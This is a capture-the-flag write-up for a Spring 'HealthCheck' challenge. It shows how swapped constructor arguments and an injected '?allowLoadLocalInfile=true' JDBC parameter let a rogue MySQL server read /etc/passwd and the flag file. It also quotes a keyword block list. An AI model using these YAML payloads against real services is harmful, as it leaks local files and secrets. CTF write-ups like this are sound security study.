 # HealthCheck as a Service

> [!NOTE]  
> \[🟢]&ensp;**EASY**:&emsp;`14` solves

<br />

You better check yo' self before you wreck yo' self

<br />

The task is given `HealthCheck.jar` file. This is a Spring application that checks the database connection from the YAML configuration file.

The JAR is not obfuscated and we can get the source code of the application for analysis.

## Key points:

1. ApiController - Handles HTTP requests and processes YAML user-input
```java
@RestController
public class ApiController {
   @PostMapping
   public String checkDatabaseHealth(@RequestBody String str) {
      Validator.validate(str);
      Map<String, Object> yamlConfig = (Map)this.yaml.load(str);
      DbConfig dbConfig = DbConfig.of(yamlConfig.get("hostname").toString(), 
                                    yamlConfig.get("port").toString(),
                                    yamlConfig.get("databaseType").toString(), 
                                    yamlConfig.get("databaseName").toString());
	 DbConfigModel dbConfigModel = new DbConfigModel(dbConfig.getDatabaseType(), dbConfig.getHostname(), dbConfig.getPort(), dbConfig.getDatabaseName());

 .   return this.connectionTestService.isConnectionOk(dbConfigModel) ? "Up" : "Down";
   }
}
```

2. Validator - Implements  security filtering:
```java
public static void validate(String payload) {
	String[] blockList = new String[]{"Script", "Engine", "ClassLoader"};
	String[] var2 = blockList;
	int var3 = blockList.length;
  
	for(int var4 = 0; var4 < var3; ++var4) {
		String s = var2[var4];
		
		if (payload.contains(s)) {
			throw new RuntimeException("Dont try to hack me");
		}
	}
}
```

In the `classpath.idx` file you can check which database drivers are supported
```
...
- "BOOT-INF/lib/snakeyaml-1.33.jar"
- "BOOT-INF/lib/mysql-connector-j-8.4.0.jar"
- "BOOT-INF/lib/ojdbc8-23.6.0.24.10.jar"
- "BOOT-INF/lib/kafka-clients-3.7.0.jar"
- "BOOT-INF/lib/postgresql-42.1.0.jar"
- "BOOT-INF/lib/mssql-jdbc-12.9.0.jre8-preview.jar"
...
```

## Analysis

1. Check how service work
```python
yml = """hostname: 127.0.0.1
port: 1337
databaseType: mysql
databaseName: kek
"""
```

2. Start simple listener on port 1337 `nc -nvlp 1337` and send this payload and get response `Down` without any interaction with our server =(
3. It's strange, lets dive in source code.
```java
public static DbConfig of(String hostname, String port, String databaseType, String databaseName) {
return new DbConfig(hostname, port, databaseType, databaseName);
}
```

but class constructor has another order of arguments.

```java
 private DbConfig(String databaseType, String hostname, String port, String databaseName)
```

4.  Let's send another payload with changed fields
 ```python
yml = """hostname: mysql
port: 127.0.0.1
databaseType: 1337
databaseName: kek
"""
```

5. Profit, we got a new connection on our `nc` server

### Exploit
1. We can setup a rogue mysql server to read local files from client. [mysql source code](https://github.com/mysql/mysql-connector-j/blob/release/8.x/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1784)
2. To read a local files we need to add a parameter `?allowLoadLocalInfile=true` to connection string. We can inject it with `databaseName`
```java
public void checkConnection() {

String jdbcUrl = "jdbc:" + this.databaseType + "://" + this.hostname + ":" + this.port + "/" + this.databaseName;
...
```
3. As a rouge server I used [Rogue Mysql server](https://github.com/rmb122/rogue_mysql_server) with config to read `/etc/passwd`
4. Send new payload
```python
yml = '''hostname: mysql
port: 127.0.0.1
databaseType: 1337
databaseName: kek?allowLoadLocalInfile=true'''
```
5. And on a rogue server we get a content of the `/etc/passwd`
6. Get the flag from `/home/app/flag.txt`. `rctf{t00_much_m4rsh411ing

### Conclusion
Most likely, the author's intended solution was to bypass the `Validator` logic and exploiting CVE-2022-1471, but we used another approach with rogue mysql server.
